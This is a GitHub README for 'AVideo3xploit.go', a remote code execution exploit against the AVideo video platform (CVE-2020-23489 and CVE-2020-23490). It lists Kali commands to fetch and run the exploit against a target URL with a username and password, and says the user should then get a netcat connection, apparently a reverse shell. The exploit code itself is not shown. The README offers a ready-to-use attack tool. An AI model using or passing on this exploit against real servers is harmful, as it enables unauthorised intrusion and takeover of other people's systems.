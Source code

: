 # AVideo3xploit.go

RCE exploit for [AVideo](https://github.com/WWBN/AVideo/) 

```
root@kali:~# go get github.com/fatih/color
root@kali:~# git clone https://github.com/ahussam/AVideo3xploit.git
root@kali:~# cd AVideo3xploit
root@kali:~/AVideo3xploit# go run AVideo3xploit.go http://[target]/avideo/ username password
```

You should get a connection on you nc 

![avideo-5](av-5.png)

## Write-up 

https://cube01.io/blog/Avideo-Remote-Code-Execution.html

## CVE 

CVE-2020-23489 & CVE-2020-23490

